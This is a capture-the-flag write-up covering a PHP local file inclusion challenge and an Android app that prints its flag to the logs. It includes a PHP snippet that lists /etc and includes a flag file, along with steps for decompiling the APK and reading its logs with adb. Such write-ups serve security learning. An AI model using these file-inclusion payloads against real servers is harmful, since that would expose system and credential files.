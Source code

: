 This post has writeup for two challenges: `WTF PHP (Web)` and `ezpz (Android app reversing)` 

## 1. WTF php
This challenge has the local file inclusion (LFI) vulnerability. The solution is as follows:
1. Use opendir() and readdir() to list the contents of /etc directory.
2. Get the name of the txt file containing the flag (f1@g.txt).
3. Use the include directive to read the file. The code is as follows
```php
<?php
	include '/etc/f1@g.txt';	
	$filelist = array();
	if ($handle = opendir("/etc")) {
    	while ($entry = readdir($handle)) {
          	$filelist[] = $entry;
    	}
	print_r($filelist);
    closedir($handle);
	}
?>
```

## 2. ezpz
In this challenge, the app exposes the flag, i.e, sensitive information in the logs. Here's how I got the flag:
1. I used jadx-gui to read the source code of the ezpz.apk file.
2. In the source code of main activity, you can see that the method isThisWhatUWant() is called (line 33).
![2_1_ezpz](https://user-images.githubusercontent.com/78410304/119315865-e994f580-bc93-11eb-8a0b-145ce5209839.png)
3. Now when you go to the code of this function, it takes a snapshot of a firebase collection and prints the flag in the logs of the app.
4. So to get the flag, all you have to do is setup an emulator (like Genymotion), install the app on the emulator, run it and get the logs using the command 'adb logcat'.


